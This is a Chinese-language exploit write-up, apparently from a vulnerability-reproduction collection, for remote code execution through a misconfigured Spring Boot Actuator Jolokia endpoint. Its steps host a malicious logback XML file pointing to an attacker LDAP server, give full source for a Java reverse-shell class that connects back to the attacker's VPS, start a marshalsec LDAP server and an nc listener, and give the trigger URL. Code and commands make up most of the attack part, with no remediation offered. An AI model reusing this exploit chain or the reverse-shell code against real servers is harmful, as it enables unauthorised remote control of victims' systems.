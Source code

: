 Spring Boot Actuator jolokia 配置不当导致的rce漏洞
==================================================

一、漏洞简介
------------

### 利用条件：

-   目标网站存在 /jolokia 或 /actuator/jolokia 接口

-   目标使用了 jolokia-core 依赖（版本要求暂未知）并且环境中存在相关
    MBean

-   目标可以请求攻击者的 HTTP 服务器（请求可出外网）

-   ldap 注入可能会受目标 JDK 版本影响，jdk \< 6u201/7u191/8u182/11.0.1

二、漏洞影响
------------

三、复现过程
------------

### 漏洞原理

-   直接访问可触发漏洞的 URL，相当于通过 jolokia 调用
    ch.qos.logback.classic.jmx.JMXConfigurator 类的 reloadByURL 方法
-   目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
-   目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
-   xml 文件中利用 logback 依赖的 insertFormJNDI 标签，设置了外部 JNDI
    服务器地址
-   目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

### 漏洞复现

### 步骤一：查看已存在的 MBeans

访问 **/jolokia/list** 接口，查看是否存在
**ch.qos.logback.classic.jmx.JMXConfigurator** 和 **reloadByURL**
关键词。![111.png](./.resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId28.png)![222.png](./.resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId29.png)

### 步骤二：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP
服务端口（80、443）

    使用 python 快速开启 http server

    python2 -m SimpleHTTPServer 80
    python3 -m http.server 80

在根目录放置以 xml 结尾的 ian.xml 文件，内容如下：

    <configuration>
      <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
    </configuration>

### 步骤三：准备要执行的 Java 代码

使用兼容低版本 jdk 的方式编译：

    javac -source 1.5 -target 1.5 JNDIObject.java

然后将生成的 **JNDIObject.class** 文件拷贝到刚刚用py开启的网站根目录。

    JNDIObject.java //请自行修改代码中反弹shell的ip和端口
    /**
     *  javac -source 1.5 -target 1.5 JNDIObject.java
     *
     *  Build By LandGrey
     * */

    import java.io.File;
    import java.io.InputStream;
    import java.io.OutputStream;
    import java.net.Socket;

    public class JNDIObject {
        static {
            try{
                String ip = "your-vps-ip";
                String port = "443";
                String py_path = null;
                String[] cmd;
                if (!System.getProperty("os.name").toLowerCase().contains("windows")) {
                    String[] py_envs = new String[]{"/bin/python", "/bin/python3", "/usr/bin/python", "/usr/bin/python3", "/usr/local/bin/python", "/usr/local/bin/python3"};
                    for(int i = 0; i < py_envs.length; ++i) {
                        String py = py_envs[i];
                        if ((new File(py)).exists()) {
                            py_path = py;
                            break;
                        }
                    }
                    if (py_path != null) {
                        if ((new File("/bin/bash")).exists()) {
                            cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/bash\")"};
                        } else {
                            cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/sh\")"};
                        }
                    } else {
                        if ((new File("/bin/bash")).exists()) {
                            cmd = new String[]{"/bin/bash"};
                        } else {
                            cmd = new String[]{"/bin/sh"};
                        }
                    }
                } else {
                    cmd = new String[]{"cmd.exe"};
                }
                Process p = (new ProcessBuilder(cmd)).redirectErrorStream(true).start();
                Socket s = new Socket(ip, Integer.parseInt(port));
                InputStream pi = p.getInputStream();
                InputStream pe = p.getErrorStream();
                InputStream si = s.getInputStream();
                OutputStream po = p.getOutputStream();
                OutputStream so = s.getOutputStream();
                while(!s.isClosed()) {
                    while(pi.available() > 0) {
                        so.write(pi.read());
                    }
                    while(pe.available() > 0) {
                        so.write(pe.read());
                    }
                    while(si.available() > 0) {
                        po.write(si.read());
                    }
                    so.flush();
                    po.flush();
                    Thread.sleep(50L);
                    try {
                        p.exitValue();
                        break;
                    } catch (Exception e) {
                    }
                }
                p.destroy();
                s.close();
            }catch (Throwable e){
                e.printStackTrace();
            }
        }
    }

![444.png](./.resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId32.png)

### 步骤四：架设恶意 ldap 服务

下载 **marshalsec** ，使用下面命令架设对应的 **ldap** 服务：

    https://github.com/ianxtianxt/marshalsec

***ps:我这里发的是源码，需要用mvn编译marshalsec***

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389

### 步骤五：监听反弹 shell 的端口

    nc -lvvp 你上一步代码里设置的端口

### 步骤六：从外部 URL 地址加载日志配置文件

    如果目标成功请求了ian.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：

    https://www.0-sec.org/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/ian.xml

**服务器请求日志**![请求1.png](./.resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId36.png)![请求2.png](./.resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId37.png)
